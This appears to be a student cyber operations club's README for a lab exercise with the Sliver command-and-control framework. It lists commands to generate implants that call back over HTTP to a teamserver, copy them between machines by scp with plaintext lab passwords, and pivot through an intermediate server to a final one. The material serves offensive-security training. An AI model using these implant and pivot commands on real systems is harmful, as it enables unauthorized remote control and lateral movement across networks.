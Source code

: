 # Cyber Ops Unit Sliver Setup
All the commands and files needed to set up the exercise, reminder that this exercise will **not** work over the TAMU network (because we can't port forward without access to the routers) and will have to be done over hotspot, where everyone will (probably) be on the same subnet, meaning they can directly SSH to the first machine

Make sure to run `sudo systemctl start sliver.service` to get Sliver working

Commands used:\
Generate Sliver Implant: `generate --os linux --arch arm64 --name [Implant Name] --http [IP of Teamserver]`\
Copy over to Intermediate server: `scp [Implant Name] aeverwooddesktop@[IP of Intermediate Server]:/home/aeverwooddesktop/Documents` (Password is 'password')\ 
Run Implant: `./[Implant Name] &`\
View sessions: `sessions`\
Use the Implant: `use [session number]`\
Create a pivot through that implant: `pivots tcp --lport [Pivot Port]`\
Generate an implant for that pivot: `generate --os linux --arch arm64 --tcp-pivot [IP Address of Intermediate Server:[Pivot Port] --name [Pivot Implant Name]`\
Upload that implant to his desktop with the upload command:
Use our implant to scp it over to the Final Server: `scp [Pivot Implant Name] aeverwooddesktop@[IP of Final Server]:/home/aeverwooddesktop/Documents` (Password is 'temple435')`\
